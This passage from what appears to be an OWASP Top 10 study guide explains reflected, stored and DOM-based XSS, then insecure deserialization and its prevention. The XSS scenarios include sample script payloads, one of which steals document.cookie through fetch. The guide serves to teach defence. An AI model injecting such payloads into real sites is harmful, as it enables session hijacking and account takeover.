 #### Attack Scenarios

  * **Scenario \#1: Reflected XSS via Search Results Page**
    A user enters a malicious script like `"><script>alert('XSS Attack');</script>` into a website's search bar. The website reflects this input directly onto the search results page without proper escaping. As a result, when other users visit that page, the `alert('XSS Attack')` script executes in their browsers, which could lead to session cookie theft or redirection to malicious sites.

  * **Scenario \#2: Stored XSS via Forum Comments**
    An attacker writes a forum comment that includes a malicious script like `<h1>Malicious Comment <script>fetch('/api/steal_cookie', {method: 'POST', body: document.cookie});</script></h1>`. This comment is stored in the database, and every time another user views that post, the script executes in their browser, sending their session cookie to the attacker's server. The attacker can then hijack the user's session using the stolen cookie and impersonate their account.

  * **Scenario \#3: Client-Side DOM-based XSS**
    A web page's JavaScript code reads data from the URL's `#` (hash) value and dynamically adds content to the page using `document.write()`. An attacker sends a malicious URL like `http://example.com/page.html#<script>alert('XSS');</script>` to a user. When the user clicks this URL, the client-side JavaScript executes the script embedded in the `#` value, leading to an XSS attack.

-----

### A8:Insecure Deserialization

#### Description

**Insecure Deserialization** is a vulnerability that **occurs when serialized objects are deserialized insecurely.** This often leads to **Remote Code Execution (RCE)**, and even if deserialization flaws do not result in RCE, they can be used to perform various attacks, including **replay attacks, injection attacks, and privilege escalation attacks.**

  * This attack is by no means easy and often occurs when developers do not properly understand the security implications of serialization/deserialization.
  * **Serialization** is the process of converting an object into a sequence of bytes for storage or transmission across a network. **Deserialization** is the inverse process, converting the byte stream back into an object.
  * If serialized data granting `user` privileges is transmitted, an attacker can tamper with it, and during the deserialization process, if it's converted to `admin` privileges, a critical issue can arise. This is because **untrusted data can be interpreted and executed as code** during the deserialization process.

#### Prevention

The most potent method for defending against insecure deserialization attacks is to **avoid deserializing objects from untrusted sources.**

  * **Do not allow deserialization of objects from untrusted sources.** This is the most effective defense.
  * **Implement digital signatures or integrity checks for serialized data** to detect data tampering. If a signature is invalid or data is corrupted, reject deserialization.
  * While it is good to **impose restrictions on the classes that can be deserialized** (e.g., whitelist-based class filtering), this is **not a complete defense as bypass methods may exist.**
  * **Monitor the deserialization process and alert if abnormal deserialization attempts occur continuously.**
  * **Use secure serialization/deserialization libraries** and educate developers to avoid using insecure functionalities.
  * **Ensure that the object graph does not contain classes that allow remote code execution** (e.g., `Runtime.exec()`, `ProcessBuilder`).
